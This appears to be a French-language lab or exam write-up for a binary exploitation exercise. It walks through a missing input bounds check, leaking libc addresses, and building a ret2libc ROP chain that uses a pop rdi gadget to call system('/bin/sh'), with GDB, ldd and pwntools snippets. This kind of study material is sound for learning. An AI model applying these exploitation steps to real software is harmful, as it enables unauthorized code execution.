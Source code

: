
- Observation code source : 
```bash
   6   │ #define ENTRY_SIZE  0x68
   7   │ #define ENTRY_COUNT 0x188
```
> Dans ce code, on peut voir qu'il n'y a pas de sécurité sur la valeur entrée par l'utilisateur. On peut donc entrée un valeur supérieur à notre ENTRY_SIZE et ENTRY_COUNT.

- Dans la fonction Vuln, on a un tableau entries, qui sera affiché à la fin.

- On récup l'adresse mémoire de base de la libc :
```bash
└─[$] <> ldd exam
	linux-vdso.so.1 (0x00007fffa5ba2000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f9187c87000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f9187e84000)
```

- Dans GDB on regarde les adresses des fonctions : 
```bash
gef➤  i func
All defined functions:

Non-debugging symbols:
0x0000000000001000  _init
0x0000000000001030  puts@plt
0x0000000000001040  printf@plt
0x0000000000001050  memset@plt
0x0000000000001060  getchar@plt
0x0000000000001070  __isoc99_scanf@plt
0x0000000000001080  exit@plt
0x0000000000001090  __cxa_finalize@plt
0x00000000000010a0  _start
0x00000000000010d0  deregister_tm_clones
0x0000000000001100  register_tm_clones
0x0000000000001140  __do_global_dtors_aux
0x0000000000001180  frame_dummy
0x0000000000001189  gadgets
0x0000000000001198  vuln
0x00000000000014a1  main
0x00000000000014b8  _fini
```

- On pourra brute force, c'est à dire parcourir les adresses de la stack pour les leaks une à une.

- Quand on lance le script, et que la stack est leak -> on peut voir dans GDB avec 'attach PID' des adresses de libc (ça commence par 7f). l'Adresse de main commence par 0x55.

- On trouve la base de la libc dynamique

- On récup l'adresse de /bin/sh dans la libc 
```python
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")  
leak_libc = adress_leak_libc # pseudo code 
_base_libc = int(leak_libc) - offset
_system_libc = _base_libc + libc.symbols["system"]
binsh = _base_libc + next(libc.search(b'/bin/sh\x00'))
```

- On veut jump sur la fonction system et passer /bin/sh en argument, on va donc utiliser le gadget pop rdi pour passer l'argument.
```bash
└─[$] <> ROPgadget --binary exam | grep pop
0x0000000000001191 : pop rdi ; pop rsi ; pop rcx ; pop rdx ; nop ; pop rbp ; ret
```
	- Dans le code python, on mettra les autres arguments du gadget à 0 car on en a pas besoin.

- On est en x64, il faut donc aligner la stack à la fin de l'appel d'une fonction (system dans notre cas). Pour cela on fera un return (ret).

